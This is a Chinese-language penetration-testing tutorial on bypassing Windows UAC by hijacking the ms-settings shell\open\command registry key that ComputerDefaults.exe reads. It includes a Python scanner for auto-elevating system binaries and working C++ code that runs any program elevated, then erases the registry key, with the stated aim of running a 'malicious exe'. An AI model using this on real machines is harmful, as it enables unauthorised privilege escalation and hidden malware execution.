# 基于白名单注册表bypassUAC

## 0x01 概念

用户帐户控制（User Account Control，简写作UAC)是微软公司在其Windows Vista及更高版本操作系统中采用的一种控制机制。其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序（有时也称为“恶意软件”）损坏系统的效果。


当前用户是管理员权限，但是有些exe会弹出用户账户控制，如果点击否的话，就会出现拒绝访问，那么也就没有成功运行该程序了。这样就会影响后续的内网渗透，例如取密码等，所以我们需要bypassuac。





手动bypassuac，右键以管理员身份运行，但是显然这个是不现实的



## 0x02 发掘bypassUAC的程序

有一些系统程序是会直接获取管理员权限同时不弹出UAC弹窗，这类程序被称为白名单程序。 这些程序拥有autoElevate属性的值为True，会在启动时就静默提升权限。

```
1. 程序的manifest标识的配置属性 autoElevate为true
2. 程序不弹出UAC弹窗
3. 从注册表里查询Shell\Open\command键值对
```

### 0x02-1 寻找autoElevate为true的程序



这里写了个py脚本遍历c:\windows\system32\目录下的所有exe文件，寻找autoElevate为true的exe程序

```
import os
from subprocess import *
# path = r'C:\Users\bingdu\Desktop\bypassUAC'
path = 'c:\windows\system32'
files = os.listdir(path)
print(files)
def GetFileList(path, fileList):
    newDir = path
    if os.path.isfile(path):
        if path[-4:] == '.exe':
            fileList.append(path)
    elif os.path.isdir(path):
        try:
            for s in os.listdir(path):
                newDir=os.path.join(path,s)
                GetFileList(newDir, fileList)
        except Exception as e:
            pass
    return fileList
files = GetFileList(path, [])      
print(files)
for eachFile in files:
    if eachFile[-4:] == '.exe':
        command = r'.\sigcheck64.exe -m {} | findstr auto'.format(eachFile)
        print(command)
        p1 = Popen(command, shell=True, stdin=PIPE, stdout=PIPE)
        if '<autoElevate>true</autoElevate>' in p1.stdout.read().decode('gb2312'):
            copy_command = r'copy {} .\success'.format(eachFile)
            Popen(copy_command, shell=True, stdin=PIPE, stdout=PIPE)
            print('[+] {}'.format(eachFile))
            with open('success.txt', 'at') as f:
                f.writelines('{}\n'.format(eachFile))
```



结果如下：

```
c:\windows\system32\bthudtask.exe
c:\windows\system32\changepk.exe
c:\windows\system32\ComputerDefaults.exe
c:\windows\system32\dccw.exe
c:\windows\system32\dcomcnfg.exe
c:\windows\system32\DeviceEject.exe
c:\windows\system32\DeviceProperties.exe
c:\windows\system32\djoin.exe
c:\windows\system32\easinvoker.exe
c:\windows\system32\EASPolicyManagerBrokerHost.exe
c:\windows\system32\eudcedit.exe
c:\windows\system32\eventvwr.exe
c:\windows\system32\fodhelper.exe
c:\windows\system32\fsquirt.exe
c:\windows\system32\FXSUNATD.exe
c:\windows\system32\immersivetpmvscmgrsvr.exe
c:\windows\system32\iscsicli.exe
c:\windows\system32\iscsicpl.exe
c:\windows\system32\lpksetup.exe
c:\windows\system32\MSchedExe.exe
c:\windows\system32\msconfig.exe
c:\windows\system32\msra.exe
c:\windows\system32\MultiDigiMon.exe
c:\windows\system32\newdev.exe
c:\windows\system32\odbcad32.exe
c:\windows\system32\PasswordOnWakeSettingFlyout.exe
c:\windows\system32\pwcreator.exe
c:\windows\system32\rdpshell.exe
c:\windows\system32\recdisc.exe
c:\windows\system32\rrinstaller.exe
c:\windows\system32\shrpubw.exe
c:\windows\system32\slui.exe
c:\windows\system32\Sysprep\sysprep.exe
c:\windows\system32\SystemPropertiesAdvanced.exe
c:\windows\system32\SystemPropertiesComputerName.exe
c:\windows\system32\SystemPropertiesDataExecutionPrevention.exe
c:\windows\system32\SystemPropertiesHardware.exe
c:\windows\system32\SystemPropertiesPerformance.exe
c:\windows\system32\SystemPropertiesProtection.exe
c:\windows\system32\SystemPropertiesRemote.exe
c:\windows\system32\SystemSettingsAdminFlows.exe
c:\windows\system32\SystemSettingsRemoveDevice.exe
c:\windows\system32\Taskmgr.exe
c:\windows\system32\tcmsetup.exe
c:\windows\system32\TpmInit.exe
c:\windows\system32\WindowsUpdateElevatedInstaller.exe
c:\windows\system32\WSReset.exe
c:\windows\system32\wusa.exe
```


### 0x02-2 寻找不弹UAC框的程序

在cmd一个个的去运行exe，如果不弹uac框就运行的既是

结果如下，下面只是找的前面几个，后面的没有去测试

```
c:\windows\system32\bthudtask.exe                       ok
c:\windows\system32\changepk.exe
c:\windows\system32\ComputerDefaults.exe                ok      1
c:\windows\system32\dccw.exe                            ok      1
c:\windows\system32\dcomcnfg.exe                        ok      1
c:\windows\system32\DeviceEject.exe                     ok  
c:\windows\system32\DeviceProperties.exe                ok
c:\windows\system32\djoin.exe                           ok
c:\windows\system32\easinvoker.exe                      ok
c:\windows\system32\EASPolicyManagerBrokerHost.exe      ok
c:\windows\system32\eudcedit.exe                        ok      1
c:\windows\system32\eventvwr.exe                        ok      1
c:\windows\system32\fodhelper.exe                       ok      1
c:\windows\system32\fsquirt.exe                         ok      1
c:\windows\system32\FXSUNATD.exe                        ok
c:\windows\system32\immersivetpmvscmgrsvr.exe           ok
c:\windows\system32\iscsicli.exe                        ok      1
c:\windows\system32\iscsicpl.exe                        ok      1
```


### 0x02-3 从注册表里查询Shell\Open\command键值对

通常以shell\open\command命名的键值对存储的是可执行文件的路径，如果exe程序运行的时候找到该键值对，就会运行该键值对的程序，而因为exe运行的时候是静默提升了权限，所以运行的该键值对的程序就已经过了uac。

所以我们把恶意的exe路径写入该键值对，那么就能够过uac执行我们的恶意exe。


使用Procmon监听，运行0x02-2的结果

这里以c:\windows\system32\ComputerDefaults.exe测试

过滤条件如下



会去查询HKCU:\Software\Classes\ms-settings\shell\open\command



然后我们再注册表里创建该键值对



继续监听，重新运行c:\windows\system32\ComputerDefaults.exe，发现还查询了HKCU\Software\Classes\ms-settings\shell\open\command\DelegateExecute的键值对



在注册表里创建HKCU\Software\Classes\ms-settings\shell\open\command\DelegateExecute




继续监听，重新运行c:\windows\system32\ComputerDefaults.exe，这时候采取获取Software\Classes\ms-settings\shell\open\command的默认值，然后就会运行该值的程序




### 0x02-4 总结

如果键值对HKCU:\Software\Classes\ms-settings\shell\open\command存在，ComputerDefaults会接下去查找HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute是否也存在,若也存在到则读取HKCU:\Software\Classes\ms-settings\shell\open\command的值然后执行。


测试：将HKCU:\Software\Classes\ms-settings\shell\open\command(default)的值设置为cmd.exe，然后运行c:\windows\system32\ComputerDefaults.exe



成功弹出exe，并且是过了uac的权限



## 0x03 C++代码实现运行任意exe过uac

```
#include <stdio.h>
#include <Windows.h>

int wmain(int argc, wchar_t* argv[]) {
    if (argc != 2) {
        wprintf(L"Usage: %s <filePath>\n", argv[0]);
        wprintf(L"       %s cmd.exe\n", argv[0]);
        exit(1);
    }

    LPWSTR filePath = argv[1];

    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFOA si = { 0 };
    HKEY hKey;

    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_HIDE;
    RegCreateKeyW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings\\Shell\\open\\command", &hKey);       // 创建注册表项
    RegSetValueExW(hKey, L"", 0, REG_SZ, (LPBYTE)filePath, lstrlenW(filePath));                             // 赋值，执行的exe路径
    RegSetValueExW(hKey, L"DelegateExecute", 0, REG_SZ, (LPBYTE)"", sizeof(""));
    // 创建进程ComputerDefaults
    CreateProcessA("C:\\Windows\\System32\\cmd.exe", (LPSTR)"/c C:\\Windows\\System32\\ComputerDefaults.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);

    // 延时十秒，等ComputerDefaults.exe运行
    Sleep(10000);
    // 清楚注册表项
    RegDeleteTreeA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings");

    return 0;
}
```

效果：




## 视频演示


## 参考链接

https://idiotc4t.com/privilege-escalation/bypassuac-fodhelper


    